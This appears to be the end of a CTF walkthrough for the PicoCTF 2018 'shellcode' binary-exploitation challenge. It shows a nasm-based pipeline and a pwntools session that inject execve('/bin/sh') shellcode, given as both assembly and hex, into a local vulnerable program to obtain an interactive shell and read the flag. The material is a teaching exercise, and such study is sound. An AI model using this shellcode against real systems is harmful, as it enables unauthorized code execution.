 Of course, that terminal still isn't interactive. If you want one of those, you should do something like this:

```
$ cat - | (nasm -f bin ~/exploit_shell.S -o /dev/stdout && echo && cat -) | ./vuln
Enter a string!
h/sh
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

**BOOM**! You've achieved an interactive terminal from handcrafted shellcode using **nothing** but an assembler.

Now that you've solved **shellcode**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.

## Appendix - pwntools

We'll go into `pwntools` more in future guides, but here's a quick tease of how you might do this challenge with pwntools (using its built-in shellcode that is null and newline free):

```
$ python
Python 2.7.12 (default, Jul 21 2020, 15:19:50)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.update(arch='i386', os='linux')
>>> p = process("./vuln")
[x] Starting local process './vuln'
[+] Starting local process './vuln': pid 2676856
>>> print(shellcraft.linux.sh().rstrip())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
>>> print(enhex(asm(shellcraft.linux.sh())))
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
>>> p.sendline(asm(shellcraft.linux.sh()))
>>> p.interactive()
[*] Switching to interactive mode
Enter a string!
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
```